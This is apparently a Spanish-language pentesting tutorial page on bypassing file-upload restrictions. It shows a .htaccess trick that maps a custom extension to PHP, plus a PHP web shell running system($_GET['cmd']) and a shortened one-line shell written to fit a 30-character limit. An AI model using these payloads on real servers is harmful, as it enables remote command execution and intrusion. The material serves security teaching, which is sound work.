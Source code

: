 ### Subida de .htaccess

En algunos campos de subida, tenemos la suerte de que nos dejan subir archivos con la extensión .htaccess, este archivo, es un archivo de configuración de servidores HTTP/S. Mediante este archivo, podemos indicarle que con una extensión que nosotros creemos, use PHP:

{% code title="file.htaccess" %}
```rust
AddType application/x-httpd-php .php16
```
{% endcode %}

Con este código, le decimos que para la extensión .php16 (Que no existe por defecto) use PHP. Por lo que esta es una manera de evadir las extensiones y sus variaciones más comunes.

{% hint style="warning" %}
El archivo .htaccess, solo aplica su configuración al directorio en el que se encuentra
{% endhint %}

### Restricciones de tamaño

Este tipo de validación, hace que solo se puedan subir archivos de un máximo de caracteres, lo que en según que caracteres permita, puede invalidar la subida del archivo.

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

En este caso, nosotros subimos el archivo cmd.php que contiene lo siguiente:

{% code title="cmd.php" %}
```php
<?php
    system($_GET['cmd']);
?>
```
{% endcode %}

El limite de caracteres esta limitado en 30 en este caso, y este ejemplo lo excede, pero lo podemos simplificar en lo siguiente:

```php
<?=`$_GET[0]`?>
```
